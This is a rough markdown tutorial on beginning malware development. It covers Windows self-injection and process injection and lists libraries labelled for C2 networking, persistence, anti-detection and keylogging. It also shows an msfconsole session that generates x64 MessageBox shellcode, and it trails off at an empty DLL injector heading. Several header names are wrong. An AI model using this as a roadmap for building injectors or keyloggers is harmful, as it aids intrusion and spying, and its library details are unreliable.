

# Creating u first Malware:

- Self Injection: For the Malware dev in Windows api we'll focus on the C and C++ lenguages.

## Self Injection:
Self injection it's code into another running proccess, instead inject malicius payload or code [it proccess in memory space].

- Linux Librearies For Ethical Off security:

1. Process Memory Manipulation:
    - <sys/ptrace.h> Debugging code injection.
    - <sys/inotify.h> File/directory monitoring.
    - <dlfcn.h> Dynamic library loading.
    - <sys/uio.h> Advanced memory R/W.

2. Networking C2 communication:
    - <sys/socket.h> TCP/UDP sockets.
    - <netinet/in.h> Network Connections.
    - <libcurl> HTTP requests (C2 server communication).
    - <libpcap> Packet sniffing.

3. Persistence Executuin:
    - <unistd.h> [fork()], [daemon()], background execution.
    - <cron.h> Cron job Manipulation Persistence.
    - libsystemd Creating systemd services.

4. Obfuscation Anti-detention:
    - libelf / libbfd- Elf binary Manipulation.
    - openssl Secure Comunication.
    - zlib Payload compression.

5. Keyloading / Spy Techniques.
    - <X11/Xlib.c> X11 Keyloading.
    - <Linux/input.h> low-level keyboard event capture.


- Windows Librearies Ethical Off security:

1. Core Winodws API Librearies:
    - windows.h
    - winbase.h
    - winuser.h
    - winsock2.h

2. Malware-Specific:
    - thehelp32.h
    - dbghelp.h
    - psapi.h
    - wininet.h

3. Advanced-Tech
    - ntdll.h
    - wincrypt.h
    - shlobj.h


The windows header is basically a header acts as a wrapper around the windows api or a container tha have everything.

- The Shellcode: Ur have 3 options for the shell code
1. Creating from scratch, using assembly.
2. Use this options:
    - [Shellstorm](https://shell-storm.org/shellcode/index.html)
    - [Exsploitdb](https://www.exploit-db.com/shellcodes)
    - Using msfconsole:
```sh
msf6 > use payload/windows/x64/messagebox
msf6 payload(windows/x64/messagebox) > show options

Module options (payload/windows/x64/messagebox):

   Name      Current Setting   Required  Description
   ----      ---------------   --------  -----------
   EXITFUNC  process           yes       Exit technique (Accepted: '', seh, thread, process, none)
   ICON      NO                yes       Icon type (Accepted: NO, ERROR, INFORMATION, WARNING, QUESTION)
   TEXT      Hello, from MSF!  yes       Messagebox Text
   TITLE     MessageBox        yes       Messagebox Title


View the full module info with the info, or info -d command.
generate
# windows/x64/messagebox - 313 bytes
# https://metasploit.com/
# VERBOSE=false, PrependMigrate=false, EXITFUNC=process,
# TITLE=MessageBox, TEXT=Hello, from MSF!, ICON=NO
buf =
"\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xcc\x00\x00\x00\x41" +
"\x51\x41\x50\x52\x48\x31\xd2\x51\x56\x65\x48\x8b\x52\x60" +
"\x48\x8b\x52\x18\x48\x8b\x52\x20\x4d\x31\xc9\x48\x0f\xb7" +
"\x4a\x4a\x48\x8b\x72\x50\x48\x31\xc0\xac\x3c\x61\x7c\x02" +
"\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2\xed\x52\x41\x51" +
"\x48\x8b\x52\x20\x8b\x42\x3c\x48\x01\xd0\x66\x81\x78\x18" +
"\x0b\x02\x0f\x85\x72\x00\x00\x00\x8b\x80\x88\x00\x00\x00" +
"\x48\x85\xc0\x74\x67\x48\x01\xd0\x8b\x48\x18\x50\x44\x8b" +
"\x40\x20\x49\x01\xd0\xe3\x56\x4d\x31\xc9\x48\xff\xc9\x41" +
"\x8b\x34\x88\x48\x01\xd6\x48\x31\xc0\xac\x41\xc1\xc9\x0d" +
"\x41\x01\xc1\x38\xe0\x75\xf1\x4c\x03\x4c\x24\x08\x45\x39" +
"\xd1\x75\xd8\x58\x44\x8b\x40\x24\x49\x01\xd0\x66\x41\x8b" +
"\x0c\x48\x44\x8b\x40\x1c\x49\x01\xd0\x41\x8b\x04\x88\x48" +
"\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58\x41\x59\x41" +
"\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41\x59\x5a\x48" +
"\x8b\x12\xe9\x4b\xff\xff\xff\x5d\xe8\x0b\x00\x00\x00\x75" +
"\x73\x65\x72\x33\x32\x2e\x64\x6c\x6c\x00\x59\x41\xba\x4c" +
"\x77\x26\x07\xff\xd5\x49\xc7\xc1\x00\x00\x00\x00\xe8\x11" +
"\x00\x00\x00\x48\x65\x6c\x6c\x6f\x2c\x20\x66\x72\x6f\x6d" +
"\x20\x4d\x53\x46\x21\x00\x5a\xe8\x0b\x00\x00\x00\x4d\x65" +
"\x73\x73\x61\x67\x65\x42\x6f\x78\x00\x41\x58\x48\x31\xc9" +
"\x41\xba\x45\x83\x56\x07\xff\xd5\x48\x31\xc9\x41\xba\xf0" +
"\xb5\xa2\x56\xff\xd5"

```
Is example of an x64 architecture.

We make this code and this is the explanation of all in ./Coding-time/self-injection.md. For looking the process of the malware we'll use the tool
[Process Hacker].

We can see the .

Endian in memory which makes it kinda reserved or uspside down.

## Process injection:
Exaplanation of the code in the ./Coding-time/Process_injection.md.

## Dll INjector:
